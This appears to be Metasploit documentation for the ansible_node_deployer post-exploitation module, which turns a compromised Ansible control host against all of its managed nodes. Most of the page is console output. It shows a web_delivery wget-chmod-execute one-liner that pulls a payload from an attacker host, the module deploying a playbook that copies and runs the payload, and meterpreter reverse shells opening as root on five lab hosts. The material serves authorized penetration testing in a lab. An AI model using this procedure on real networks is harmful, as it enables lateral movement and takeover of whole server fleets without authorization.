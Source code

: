 ## Vulnerable Application

This exploit module creates an ansible module for deployment to nodes in the network.
It creates a new yaml playbook which copies our payload, chmods it, then runs it on all
targets which have been selected (default all).

### Docker-compose Install

Use the ansible lab files located [here](https://github.com/abdennour/ansible-lab-environment-in-containers).

Before bringing up the `docker-compose` instance, you'll want to generate an SSH key: `ssh-keygen -t rsa -N "" -f secrets/id_rsa`

Of note, only 1 of the 3 alpine hosts will be successful due to the port conflict. This is fine though.

## Verification Steps

1. Install the application
1. Start msfconsole
1. Get an initial shell on the box
1. Do: `use exploit/linux/local/ansible_node_deployer`
1. Do: `set session [#]`
1. Do: `run`
1. You should get sessions on all the targeted hosts

## Options

### ANSIBLEPLAYBOOK

Location of ansible executable if not in a standard location. This is added to a list of default locations
which includes `/usr/local/bin/ansible`. Defaults to ``

## WritableDir

A directory on the compromised host we can write our payload to. Defaults to `/tmp`

## TargetWritableDir

A directory on the target hosts we can write our payload to. Defaults to `/tmp`

## CALCULATE

This will calculate how many hosts may be exploitable by using Ansible's ping command.

### HOSTS

Which Ansible host (groups) to target. Defaults to `all`

### ListenerTimeout

How many seconds to wait after executing the payload for hosts to call back. Defaults to `60`

## Scenarios

### Docker compose as mentioned above

Get initial access to the system

```
resource (ansible_deploy.rb)> use exploit/multi/script/web_delivery
[*] Using configured payload python/meterpreter/reverse_tcp
resource (ansible_deploy.rb)> set lhost 1.1.1.1
lhost => 1.1.1.1
resource (ansible_deploy.rb)> set srvport 8181
srvport => 8181
resource (ansible_deploy.rb)> set target 7
target => 7
resource (ansible_deploy.rb)> set payload payload/linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
resource (ansible_deploy.rb)> run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] Using URL: http://1.1.1.1:8181/2BQIMgeywC6gGt9
[*] Server started.
[*] Run the following command on the target machine:
wget -qO OHZQobFE --no-check-certificate http://1.1.1.1:8181/2BQIMgeywC6gGt9; chmod +x OHZQobFE; ./OHZQobFE& disown
[*] 172.22.0.7       web_delivery - Delivering Payload (250 bytes)
[*] Sending stage (3045380 bytes) to 172.22.0.7
[*] Meterpreter session 1 opened (1.1.1.1:4444 -> 172.22.0.7:49612) at 2023-12-15 20:12:27 -0500
```

```
resource (ansible_deploy.rb)> use exploit/linux/local/ansible_node_deployer
[*] No payload configured, defaulting to linux/x64/meterpreter/reverse_tcp
resource (ansible_deploy.rb)> set session 1
session => 1
resource (ansible_deploy.rb)> set verbose true
verbose => true
resource (ansible_deploy.rb)> set lhost 1.1.1.1
lhost => 1.1.1.1
resource (ansible_deploy.rb)> set lport 9999
lport => 9999
[*] Starting persistent handler(s)...
[msf](Jobs:1 Agents:0) exploit(linux/local/ansible_node_deployer) > 
[msf](Jobs:1 Agents:1) exploit(linux/local/ansible_node_deployer) > set TargetWritableDir /etc/
TargetWritableDir => /etc/
[msf](Jobs:1 Agents:1) exploit(linux/local/ansible_node_deployer) > exploit
[*] Exploit running as background job 1.
[*] Exploit completed, but no session was created.
[msf](Jobs:2 Agents:1) exploit(linux/local/ansible_node_deployer) > 
[*] Started reverse TCP handler on 1.1.1.1:9999 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] /tmp is writable, and ansible executable found
[+] The target is vulnerable.
[+] Stored pings to: /root/.msf4/loot/20231215201340_default_172.22.0.7_ansible.ping_422232.txt
[+] Ansible Pings
=============

 Host                       Status   Ping  Changed
 ----                       ------   ----  -------
 alpine-example-com         SUCCESS  pong  false
 alpinesystemd-example-com  SUCCESS  pong  false
 centos7-example-com        SUCCESS  pong  false
 rhel8-example-com          SUCCESS  pong  false

[+] 4 ansible hosts were pingable, and will attempt to execute payload. Waiting 10 seconds incase this isn't optimal.
[*] Creating yaml job to execute
[*] Writing payload
[*] Writing '/tmp/O514h2N' (250 bytes) ...
[*] Executing ansible job
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 172.22.0.6
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 172.22.0.4
[+] Stored run logs to: /root/.msf4/loot/20231215201411_default_172.22.0.7_ansible.playbook_967421.txt
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 172.22.0.5
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 172.22.0.2
[*] Meterpreter session 2 opened (1.1.1.1:9999 -> 172.22.0.6:60850) at 2023-12-15 20:14:36 -0500
[*] Meterpreter session 5 opened (1.1.1.1:9999 -> 172.22.0.2:34980) at 2023-12-15 20:14:36 -0500
[*] Meterpreter session 3 opened (1.1.1.1:9999 -> 172.22.0.4:51082) at 2023-12-15 20:14:46 -0500
[*] Meterpreter session 4 opened (1.1.1.1:9999 -> 172.22.0.5:41770) at 2023-12-15 20:14:56 -0500

[msf](Jobs:2 Agents:5) exploit(linux/local/ansible_node_deployer) > sessions -l

Active sessions
===============

  Id  Name  Type                   Information        Connection
  --  ----  ----                   -----------        ----------
  1         meterpreter x64/linux  root @ 172.22.0.7  1.1.1.1:4444 -> 172.22.0.7:49612 (172.22.0.7)
  2         meterpreter x64/linux  root @ 172.22.0.6  1.1.1.1:9999 -> 172.22.0.6:60850 (172.22.0.6)
  3         meterpreter x64/linux  root @ 172.22.0.4  1.1.1.1:9999 -> 172.22.0.4:51082 (172.22.0.4)
  4         meterpreter x64/linux  root @ 172.22.0.5  1.1.1.1:9999 -> 172.22.0.5:41770 (172.22.0.5)
  5         meterpreter x64/linux  root @ 172.22.0.2  1.1.1.1:9999 -> 172.22.0.2:34980 (172.22.0.7)
```

```
└─$ cat ~/.msf4/loot/20231215201411_default_172.22.0.7_ansible.playbook_967421.txt

PLAY [Deliver Meterpreter] *****************************************************

TASK [Gathering Facts] *********************************************************
[DEPRECATION WARNING]: Distribution redhat 8.2 on host rhel8-example-com should
 use /usr/libexec/platform-python, but is using /usr/bin/python for backward 
compatibility with prior Ansible releases. A future Ansible release will 
default to using the discovered platform python for this host. See https://docs
.ansible.com/ansible/2.9/reference_appendices/interpreter_discovery.html for 
more information. This feature will be removed in version 2.12. Deprecation 
warnings can be disabled by setting deprecation_warnings=False in ansible.cfg.
ok: [rhel8-example-com]
ok: [centos7-example-com]
[WARNING]: Platform linux on host alpine-example-com is using the discovered
Python interpreter at /usr/bin/python, but future installation of another
Python interpreter could change this. See https://docs.ansible.com/ansible/2.9/
reference_appendices/interpreter_discovery.html for more information.
ok: [alpine-example-com]
[WARNING]: Platform linux on host alpinesystemd-example-com is using the
discovered Python interpreter at /usr/bin/python, but future installation of
another Python interpreter could change this. See https://docs.ansible.com/ansi
ble/2.9/reference_appendices/interpreter_discovery.html for more information.
ok: [alpinesystemd-example-com]

TASK [ansible.builtin.copy] ****************************************************
changed: [alpine-example-com]
changed: [centos7-example-com]
changed: [rhel8-example-com]
changed: [alpinesystemd-example-com]

TASK [ansible.builtin.file] ****************************************************
changed: [alpine-example-com]
changed: [rhel8-example-com]
changed: [centos7-example-com]
changed: [alpinesystemd-example-com]

TASK [command] ***************************************************************** 
```
